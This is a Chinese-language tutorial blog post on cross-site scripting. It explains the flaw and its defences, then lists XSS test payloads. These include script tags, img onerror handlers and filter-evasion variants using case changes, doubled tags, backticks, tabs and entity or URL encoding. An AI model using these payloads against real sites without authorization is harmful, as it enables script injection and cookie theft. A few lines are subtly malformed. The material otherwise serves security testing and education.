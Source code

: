 ```yaml
---
title: xss漏洞
date: 2024-12-22 16:33:32
categories: 
-  网安
tags: 
- 渗透
- 网安
- 测试
- XSS
top: 
---
```

[toc]
## 一、xss漏洞概念
XSS（跨站脚本攻击，Cross-Site Scripting）是一种安全漏洞，它允许攻击者在网页上注入恶意脚本。这些脚本可能用于盗取cookie，盗取用户数据、操纵DOM、进行网络钓鱼等。
## 二、xss漏洞解决办法

> 1、对所有的输入进行过滤和清理，确保输入的数据不包含任何可能导致XSS的字符或序列。
> 
> 2、对所有的输出进行编码，确保输出的数据不会被浏览器解释为代码。
> 
> 3、使用内容安全策略（CSP），它能有效地限制网页上可以加载的资源。
> 
> 4、使用HTTPOnly标志，防止脚本通过document.cookie获取cookie数据。
> 
> 5、对于富文本内容，使用可信的HTML解析器，并进行适当的转义。

 ## 三、xss漏洞payload
 在某个网页的提交内容处添加以下代码，测试是否有弹窗跳出，如果有则说明，该网站存在漏洞
 [更多payload](https://github.com/payloadbox/xss-payload-list.git)
 **典型脚本**
``` javascript  
<script>alert('xss')</script>
"><script>alert('xss')</script>

```

**利用 HTML 标签的属性脚本**

``` javascript
"><img src=x οnerrοr=alert("XSS");>

<img src=x:alert(alt) onerror=eval(src) alt=xss>

<img src=x onerror=alert('XSS');>

<img src=x onerror=alert(String.fromCharCode(88,83,83));>

```  
**变形方法脚本**
大小写

``` javascript
<sCript>alert('xss')</Script>        将标签中的部分小写字母改为大写
```
双写

``` javascript
<scrscriptipt>alert('xss')</scrscriptipt>        对原来的<script>标签变形	
```
引号

``` javascript
<img src="#" onerror="alert('xss')"/>        双引号包裹执行命令的alert函数
<img src="#" onerror=alert`xss`/>        反引号代替括号包裹xss内容

```
/ 代替空格

``` javascript
<img/src='#'/onerror='alert('xss')'/>

```
Tab 与回车

``` javascript
在语句中穿插 Tab和回车

<a href="j
avascript:alert('xss')">click me!
</a>

```
编码

``` javascript
<a href="j&#97;v&#x61;script:alert('xss')>click me!</a>        HTML实体编码
%3Cscript%3Ealert('xss')%3C/script%3E        URL编码

```
